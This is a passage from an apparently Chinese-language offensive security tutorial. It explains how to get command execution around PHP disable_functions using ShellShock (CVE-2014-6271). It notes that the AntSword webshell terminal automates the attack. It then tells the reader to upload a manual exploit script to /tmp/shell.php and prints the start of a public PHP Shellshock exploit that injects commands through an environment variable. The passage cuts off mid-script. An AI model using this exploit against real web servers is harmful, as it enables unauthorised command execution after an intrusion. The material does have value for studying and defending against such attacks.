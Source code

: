 ![image-20211126224241033](image/命令执行/image-20211126224241033.png)

AntSword 虚拟终端中已经集成了对 ShellShock 的利用, 直接在虚拟终端执行命令即可

![image-20211126224337566](image/命令执行/image-20211126224337566.png)

也可以选择手动利用。在有权限的目录中（/tmp/shell.php）上传以下利用脚本：

```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
```